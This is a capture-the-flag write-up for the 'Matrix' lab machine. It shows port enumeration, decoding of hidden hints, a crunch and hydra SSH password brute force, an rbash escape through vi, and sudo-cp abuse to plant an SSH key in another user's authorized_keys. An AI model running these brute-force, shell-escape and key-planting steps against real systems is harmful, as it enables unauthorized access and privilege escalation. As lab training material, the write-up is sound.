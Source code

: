 # Write-UP Matrix

## Enumeration :

```nmap -p- 192.168.1.19```


## Port 80

It says to follow the white rabbit ... at the top bottom we can find a image of a white rabbit. When we click on it we can see it name :

p0rt_31337.png

## Port 31337

It's another website, same design as the first one. In the source code we find :

```ZWNobyAiVGhlbiB5b3UnbGwgc2VlLCB0aGF0IGl0IGlzIG5vdCB0aGUgc3Bvb24gdGhhdCBiZW5kcywgaXQgaXMgb25seSB5b3Vyc2VsZi4gIiA+IEN5cGhlci5tYXRyaXg= ```

It's Base 64, which decoded is :

```echo "Then you'll see, that it is not the spoon that bends, it is only yourself. " > Cypher.matrix```

At this point, I started to feel blocked. After minutes of unsuccessful enumeration, I found a file call Cypher.matrix at the root of the website.

## Cypher.matrix

The Cypher is actually braincode, when interprate it gives :

```
You can enter into matrix as guest, with password k1ll0rXX
Note: Actually, I forget last two characters so I have replaced with XX try your luck and find correct string of password
```

This hint tell us cleary to bruteforce guest user.

## Bruteforce

Let's generate the password list using the hint.

```
❯❯ crunch 8 8 -f /usr/share/crunch/charset.lst lalpha-numeric -t k1ll0r@@ -o wordlist.txt
```

then bruteforce on ssh :

```
❯❯ hydra -l guest -P wordlist.txt 172.20.10.12 ssh -t4
[sip]
[22][ssh] host: 172.20.10.12   login: guest   password: k1ll0r7n
```

Found it !

Now, just have to :

```
ssh guest@172.20.10.12
guest@porteus:~$ 
```

## Priv ESC

### rbash

The first thing we have to figured out is how to escape rbash.
I go quite easily on it, cause of vi.
Actually VI is authorized so i do :

```
vi
:!/bin/sh
sh-4.4$ bash
guest@porteus:~$ ls
Desktop/  Documents/  Downloads/  Music/  Pictures/  Public/  Videos/  prog/
```
And then we are not using rbash anymore.

Using sudo -l, we see that we can use /bin/cp as trinity. 

```
sudo -u trinity /bin/cp toto.txt /home/trinity/.ssh/authorized_keys
❯❯ ssh trinity@172.20.10.12 -i /root/.ssh/id_rsa
Last login: Mon Aug  6 16:37:45 2018 from 192.168.56.102
trinity@porteus:~$
```






